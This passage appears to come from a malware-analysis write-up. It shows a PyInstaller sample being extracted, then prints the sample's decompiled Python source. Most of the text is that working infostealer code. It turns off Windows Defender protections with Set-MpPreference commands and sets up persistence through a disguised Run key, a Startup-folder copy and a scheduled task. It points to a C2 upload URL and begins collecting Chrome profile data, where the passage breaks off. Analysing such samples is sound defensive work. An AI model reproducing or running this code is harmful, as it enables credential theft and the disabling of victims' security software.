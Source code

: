```bash
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: pretty_normal_file_x64.exe

You can now use a python decompiler on the pyc files within the extracted directory

$ pycdc pretty_normal_file_x64.exe_extracted/script.pyc
Bad MAGIC!
Could not load file pretty_normal_file_x64.exe_extracted/script.pyc
```

We extracted the bytecode but couldn't decompile it successfully, so I will use an online decompiler instead:

```
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: script.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)
import os
import time
import shutil
import zipfile
import subprocess
import winreg
EXE_PATH = 'C:\\Users\\Public\\Desktop\\A legitimate software\\pretty_normal_file_x64.exe'
ZIP_PATH = os.path.join(os.getenv('TEMP'), 'Micah.zip')
C2_SERVER = 'http://callosallsaospz.shop/upload'
EXFIL_SCRIPT_PATH = os.path.join(os.getenv('TEMP'), 'Not a real script.ps1')
def disable_defender():
    """Disables Windows Defender protections."""
    try:
        commands = ['Set-MpPreference -DisableRealtimeMonitoring $true', 'Set-MpPreference -DisableBehaviorMonitoring $true', 'Set-MpPreference -DisableBlockAtFirstSeen $true', 'Set-MpPreference -DisableIOAVProtection $true', 'Set-MpPreference -DisablePrivacyMode $true', 'Set-MpPreference -MAPSReporting 0', 'Set-MpPreference -SubmitSamplesConsent 2', 'Set-MpPreference -DisableIntrusionPreventionSystem $true', 'Set-MpPreference -DisableScriptScanning $true']
        for cmd in commands:
            subprocess.run(['powershell', '-Command', cmd], shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
            time.sleep(2)
        subprocess.run(['powershell', 'echo Does this go to Tahiti?'], check=True)
    except:
        return None
def establish_persistence():
    key = winreg.HKEY_CURRENT_USER
    reg_path = 'Software\\Microsoft\\Windows\\CurrentVersion\\Run'
    with winreg.OpenKey(key, reg_path, 0, winreg.KEY_SET_VALUE) as reg:
        winreg.SetValueEx(reg, 'WindowsUpdate', 0, winreg.REG_SZ, EXE_PATH)
    time.sleep(3)
    startup_folder = os.path.join(os.getenv('APPDATA'), 'Microsoft\\Windows\\Start Menu\\Programs\\Startup')
    startup_path = os.path.join(startup_folder, 'winupdate.exe')
    shutil.copy(EXE_PATH, startup_path)
    time.sleep(3)
    task_command = f'schtasks /create /tn "what_a_rat" /tr "{EXE_PATH}" /sc onlogon /rl highest /f'
    subprocess.run(task_command, shell=True)
def zip_browser_data():
    user_profile = os.path.expanduser('~')
    chrome_path = os.path.join(user_profile, 'AppData', 'Local', 'Google', 'Chrome', 'User Data', 'Default')
    files_to_zip = []
    for root, _, files in os.walk(chrome_path):
        for file in files:
            if not file.endswith('.json') and (not file.endswith('.log')):
```